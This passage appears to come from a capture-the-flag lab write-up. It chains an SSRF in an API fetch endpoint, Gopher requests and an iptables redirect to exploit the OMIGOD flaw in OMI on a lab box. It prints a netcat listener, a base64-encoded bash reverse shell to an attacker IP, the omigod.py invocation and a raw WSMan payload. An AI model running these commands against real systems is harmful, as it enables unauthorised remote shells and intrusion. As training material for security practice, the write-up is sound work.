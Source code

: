 Starting the listener on port 5985 that will receive the request from the box:
```
nc -lvnp 5985
```

After starting all listeners, the request to the API can be sent:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=https://10.10.14.3:443' -H 'accept: application/json' | jq
```

It will connect to the **Ncat listener** on port 443 and the `iptables` rule will forward the 11th packet to port 8443.
This port is used by the _web-server.py_, which uses a _Location_ header to port 5985 and the listener on this port receives the final connection.

After successfully proving the exploit chain, this can be used to exploit **OMIGOD** and get a reverse shell.

Adding proxy to the _omigod.py_ script to send the request to **Burpsuite**:
```python
# (...)
r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False, proxies={'https':'http://localhost:8080'})
# (...)
```

Encoding reverse shell command with Base64:
```
echo -n 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1' | base64 -w 0
```

Executing the exploit script _omigod.py_ and intercepting the request:
```
python3 omigod.py -t 10.10.11.117 -c 'echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMQ== | base64 -d | bash'
```

The network protocol **Gopher** adds two bytes to the end of a request, so the header _Content-Length_ has to be incremented by two:
```
POST /wsman HTTP/1.1
Host: 10.10.11.117:5986
(...)

Content-Length: 1728

(...)
<p:command>
  echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMQ== | base64 -d | bash
</p:command>
(...)
```

URL-encoding the request:
```
Select the request -> Convert selection -> URL -> URL-encode all characters
```
